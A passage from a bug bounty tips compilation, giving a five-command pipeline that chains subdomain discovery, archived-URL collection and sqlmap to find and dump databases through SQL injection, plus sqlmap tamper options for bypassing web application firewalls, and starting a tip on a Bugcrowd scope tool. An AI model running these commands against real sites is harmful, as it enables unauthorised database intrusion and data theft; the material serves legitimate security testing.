 Now there should be no problem intercepting the traffic.

## 2\. Find SQL injections (command combo)

By [@El3ctr0Byt3s](https://twitter.com/El3ctr0Byt3s)  
Source: [link](https://twitter.com/El3ctr0Byt3s/status/1302706241240731649)

These 5 commands can help to easily identify SQL injection on our target domain:

```bash
subfinder -d target.com | tee -a domains
cat domains | httpx | tee -a urls.alive
cat urls.alive | waybackurls | tee -a urls.check
gf sqli urls.check >> urls.sqli
sqlmap -m urls.sqli --dbs --batch
```

Here’s what’s going on in detail:

1.  First we will find all subdomains under our target domain
2.  Next we will identify all alive web servers running on those subdomains
3.  Waybackurls will fetch all URLs that the Wayback Machine knows about the identified alive subdomains
4.  Now we will filter out URLs that match patterns with potential SQL injection
5.  The final step is to run sqlmap on all identified potentially vulnerable URLs and let it do its magic

**Protip**: If you need to bypass WAF (Web Application Firewall) in the process, add the following options to sqlmap:

```bash
--level=5 --risk=3 -p 'item1' --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,ifnull2ifisnull,modsecurityversioned
```

Here’s where to get all the tools for this tip:

-   [https://github.com/projectdiscovery/subfinder](https://github.com/projectdiscovery/subfinder)
-   [https://github.com/tomnomnom/waybackurls](https://github.com/tomnomnom/waybackurls)
-   [https://github.com/projectdiscovery/httpx](https://github.com/projectdiscovery/httpx)
-   [https://github.com/tomnomnom/gf](https://github.com/tomnomnom/gf)
-   [https://github.com/1ndianl33t/Gf-Patterns](https://github.com/1ndianl33t/Gf-Patterns) (sqli patterns)

## 3\. Get scope of Bugcrowd programs in CLI

By [@sw33tLie](https://twitter.com/sw33tLie)  
Source: [link](https://twitter.com/sw33tLie/status/1311978448626348037)

There is a new tool in town called [bcscope](https://github.com/sw33tLie/bcscope) which can get you the scope of all bug bounty programs available on [Bugcrowd](https://www.bugcrowd.com/) platform, including the private ones.

All you have to do is to provide your Bugcrowd token like this:
